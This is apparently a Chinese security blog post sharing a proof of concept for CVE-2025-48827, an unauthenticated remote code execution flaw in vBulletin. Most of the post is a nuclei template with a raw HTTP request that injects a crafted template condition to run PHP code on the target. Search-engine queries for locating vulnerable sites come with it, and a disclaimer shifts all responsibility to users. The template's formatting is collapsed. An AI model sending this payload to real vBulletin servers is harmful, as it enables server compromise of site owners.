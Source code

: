 #  CVE-2025-48827：vbulletin代码执行POC   
z1  Z1sec   2025-06-04 06:32  
  
   
  
> **免责声明：**  
  
由于传播、利用本公众号Z1sec所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
  
   
  
vBulletin中的关键未经身份验证的API访问  
  
POC详细：关注公众号回复“0604”  
  
搜索引擎：app="vBulletin"  
  
nuclei验证：  
  
   
  
```
id: vbulletin-replacead-rceinfo:name:vBulletinreplaceAdTemplate-RemoteCodeExecutionauthor:DhiyaneshDKseverity:criticaldescription:|    vBulletin versions 5.0.0 through 6.0.3 contain a Remote Code Execution (RCE) vulnerability in the ajax/api/ad/replaceAdTemplate endpoint. This flaw arises from improper use of PHP's Reflection API, allowing unauthenticated attackers to invoke protected controller methods. By injecting a crafted <vb:if> conditional that executes arbitrary PHP code via passthru($_POST[<param>]), and triggering it with a second request to ajax/render/ad_<location>, attackers can run arbitrary commands on the server as the webserver user.impact:|    Successful exploitation allows unauthenticated remote attackers to execute arbitrary system commands as the web server user, resulting in full system compromise.remediation:|    Upgrade to vBulletin 6.0.4+ and apply the official patch to restrict access to protected controller methods and secure the ajax/api/ad/replaceAdTemplate endpoint.reference:    -https://karmainsecurity.com/pocs/vBulletin-replaceAdTemplate-RCE.php    -https://karmainsecurity.com/dont-call-that-protected-method-vbulletin-rceclassification:    cpe:cpe:2.3:a:vbulletin:vbulletin:*:*:*:*:*:*:*:*metadata:    verified:true    max-request:1    vendor:vbulletin    product:vbulletin    fofa-query:app="vBulletin"    shodan-query:http.component:"vBulletin"tags:rce,vbulletin,intrusivevariables:rand_string:"{{to_lower(rand_base(5))}}"rand_value:"{{to_lower(rand_text_alpha(5))}}"http:-raw:      -|        POST / HTTP/1.1        Host: {{Hostname}}        Content-Type: application/x-www-form-urlencoded        routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location={{rand_string}}&template=<vb:ifcondition='"var_dump"("{{rand_value}}")'></vb:if>    matchers:      -type:dsl        dsl:          -contains(content_type,'application/json')          -contains_all(body,'string(5)','{{rand_value}}')          -status_code==200        condition:and# digest: 4a0a00473045022039d5fe53f2231bbabadaf62fc548eedf67c6fbffc543aa29a6e96fcd690d9f3d022100a7d55e33136c01b5c3bbbe57691e3cddbc419cba3c4fcf24c313d1e3fe71795b:922c64590222798bb761d5b6d8e72950
```  
  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/bnXduaibt5THYLgRMaia3ZZkicmg8I2GpEcVMy0NVaJCrWHB2z0eWJ3PHib4sOAYI7lCIZnscAUwdU1bcj57A5riciaQ/640?wx_fmt=png&from=appmsg "")  
  
